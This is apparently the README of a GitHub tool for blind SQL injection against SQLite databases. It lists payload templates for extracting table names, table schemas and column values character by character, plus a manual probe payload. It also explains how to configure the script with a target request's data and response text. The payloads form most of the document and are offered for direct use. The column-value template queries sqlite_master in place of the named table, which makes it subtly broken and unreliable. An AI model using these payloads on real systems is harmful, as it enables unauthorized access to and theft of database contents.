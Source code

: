 ## SQLiteBLINDInjection <br/> [Author](https://github.com/aykutcanustun): aykutcanustun

## How To Set Queries:
To retrieve table names from database: <br/>
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),{},1)){} {} -- <br/><br/>
To retrieve table schema: <br/>
' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} -- <br/><br/>
To retrieve values inside column: <br/>
' or UNICODE(SUBSTR((SELECT $COLUMN_NAME FROM sqlite_master WHERE tbl_name='$TABLE_NAME'),{},1)){} {} -- <br/><br/>
**Replace $TABLE_NAME and $COLUMN_NAME with data that you retrieved from privious query!**

## How To Set Varibles:
To use the script, you have to set varibles according to your request's header, data and response etc. <br/>
I marked these lines with comments in main.py! <br/>

Make changes at these lines: 
![replacements](https://github.com/aykutcanustun/SQLiteBLINDInjection/blob/master/replacements.png)

Replace "username" string with your request's data as below:
![request](https://github.com/aykutcanustun/SQLiteBLINDInjection/blob/master/request.png)

You have to try this query manually for see what is the reply: <br/>
' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table'),1,1)) < 128 -- <br/>
Replace "Data Sent!" string according to your manual request's reply:

![response](https://github.com/aykutcanustun/SQLiteBLINDInjection/blob/master/response.png)
